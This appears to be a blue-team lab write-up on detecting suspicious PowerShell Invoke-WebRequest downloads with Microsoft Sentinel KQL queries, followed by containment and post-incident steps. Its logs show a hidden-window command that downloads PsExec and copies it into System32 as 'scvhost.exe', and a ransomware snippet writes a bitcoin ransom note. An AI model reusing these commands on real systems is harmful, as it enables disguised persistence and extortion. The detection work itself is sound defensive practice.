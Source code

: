 ```yaml
---
title: "PowerShell Suspicious Web Request"
date: 2025-07-02
categories: [Blue Team, Incident Response]
tags: [windows, sentinel, azure, powershell, suspicious-activity, suspicious-webrequest]
---
```


# 🔍 Overview

> Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.
> When processes are executed/run on the local VM, logs will be forwarded to Microsoft Defender for Endpoint under the DeviceProcessEvents table. These logs are then forwarded to the Log Analytics Workspace being used by Microsoft Sentinel, our SIEM. Within Sentinel, we will define an alert to trigger when PowerShell is used to download a remote file from the internet. 

## Tools Used
- **Cloud Platform:** Azure
- **SIEM:** Microsoft Sentinel
- **VM:** Windows 10
- **Application:** PowerShell

## Scenario 2: PowerShell Suspicious Web Request

Part 1: Create Alert Rule (PowerShell Suspicious Web Request)

```powershell
let TargetDevice = "threat-hunting-";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image.png)

...

```powershell
 threat-hunting-
 labuser99
 powershell -Command "Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/PsExec.zip' -OutFile 'C:\ProgramData\PsExec.zip'"
 powershell -Command "Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/PsExec.zip' -OutFile '$env:TEMP\PsExec.zip'"
 powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/PsExec.zip' -OutFile 'C:\ProgramData\PsExec.zip'; Expand-Archive -Path 'C:\ProgramData\PsExec.zip' -DestinationPath 'C:\ProgramData\PsExec' -Force; Copy-Item -Path 'C:\ProgramData\PsExec\PsExec.exe' -Destination 'C:\Windows\System32\scvhost.exe' -Force"
 powershell -Command "Invoke-WebRequest -Uri 'https://download.sysinternals.com/files/PsExec.zip' -OutFile "$env:TEMP\PsExec.zip""
```

There is a user named labuser99 in my VM!

Searching for Outbound Requests by labuser99

```powershell
DeviceNetworkEvents
| where InitiatingProcessAccountName == "labuser99"
| where RemoteIP != "" and RemoteIP !startswith "10." // Filter for outbound traffic
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessCommandLine, RemoteIP, RemotePort, RemoteUrl, Protocol, ActionType
| order by Timestamp desc
```

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image11.png)

Checking if labuser99 is a domain account:

```powershell
DeviceLogonEvents
| where DeviceName == "threat-hunting-"
| where AccountName endswith "labuser99"
| summarize by AccountDomain, AccountName
```

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image12.png)

**Search for user impersonation or script execution using that identity**:

```powershell
DeviceProcessEvents
| where DeviceName == "threat-hunting-"
| where InitiatingProcessAccountName contains "labuser99"
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessParentFileName
| order by Timestamp desc
```

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image13.png)

Checking if labuser99 deleted his account

```powershell
DeviceEvents
| where DeviceName == "threat-hunting-"
| where ActionType == "UserAccountDeleted"
| where AdditionalFields contains "labuser99"
| order by Timestamp desc
```

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image14.png)

Did not find the labuser99 user locally on the VM

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image15.png)

Didn’t find the files listed in the KQL Query results in the ProgramData folder:

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image16.png)

Finding labuser99’s execution of PsExec.zip

```powershell
DeviceProcessEvents
| where InitiatingProcessAccountName == "labuser99"
| where ProcessCommandLine has_any ("PsExec.zip", "PsExec.exe")
    or FileName has "PsExec"
| project Timestamp, DeviceName, InitiatingProcessAccountName, FileName, ProcessCommandLine, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by Timestamp desc
```

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image17.png)

> ⚠️ **Disclaimer:** All employee data, names, SSNs, phone numbers, and financial details used below are fictional and generated solely for simulation and training purposes.

...

# Write new decryption instructions in the Desktop folder
```powershell
"Your files have been encrypted.`nTo get the decryption key, send \$300 worth of bitcoin to [REDACTED-BTC-ADDRESS]" | Out-File -FilePath $decryptionInstructionsPath -Force
Log-Message "Decryption instructions written to: $decryptionInstructionsPath."
```

...

## Containment, Eradication, and Recovery

Machine was isolated in MDE and an anti-malware scan was run.

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image19.png)

## Post-Incident Activities

We had the affected user go through extra rounds of cybersecurity awareness training and upgraded our training package from KnowBe4 and increased training frequency.

Created a policy that restricts the use of PowerShell for non-essential users.

Updated Activity Log

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image20.png)

Close the Incident

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image21.png)

Delete the Detection Rule

![image.png](/assets/img/bluelabs/powershell-suspicious-webreq/image22.png)

